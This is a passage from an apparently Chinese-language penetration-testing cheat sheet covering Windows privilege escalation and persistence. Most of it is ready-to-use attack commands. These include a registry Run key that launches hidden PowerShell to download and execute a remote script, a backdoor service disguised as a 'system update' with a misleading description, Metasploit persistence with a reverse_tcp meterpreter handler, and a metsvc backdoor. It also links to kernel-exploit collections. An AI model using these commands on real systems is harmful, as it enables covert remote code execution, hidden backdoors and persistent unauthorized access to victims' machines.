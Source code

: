 `pip install xlrd==1.2.0` //安装库文件

`windows-exploit-suggester.py --update` //更新数据库

`systeminfo >> systeminfo.txt`

`python windows-exploit-suggester.py -d 2022-03-01-mssb.xls -i systeminfo.txt`

##### 4.提权exp

* [http://github.com/SecWiki/windows-kernel-exploits](http://github.com/SecWiki/windows-kernel-exploits)
* [http://github.com/Ascotbe/Kernelhub](http://github.com/Ascotbe/Kernelhub)
* [http://github.com/klsfct/getshell](http://github.com/klsfct/getshell)

#### 3.6权限维持

##### 1.注册表启动项

```
reg add hklm\software\microsoft\windows\currentversion\run /v "shell" /t REG_SZ /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.1.14:8080/a'))\"" /f
```

##### 2.自启动服务

```
shell sc create "system_update" binpath= "c:\windows\temp\shell.exe" //创建服务
shell sc description "此程序为系统升级服务，停止将导致系统升级故障" "test" //设置服务描述
shell sc config "system_update" start= auto //设置服务自启动
shell net start "shell" //启动服务
```

##### 3.msf

* persistence

  `run persistence -X -i 60 -p 8888 -r 192.168.0.1`

  * -X:开机自启
  * -i:反向连接时间间隔
  * -p:反连端口
  * -r:反连IP

  服务端监听

  ```bash
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set LHOST 192.168.0.1
  set LPORT 8888
  run
  ```

* metsvc

  `run metsvc –A` //自动安装服务后门，监听31337
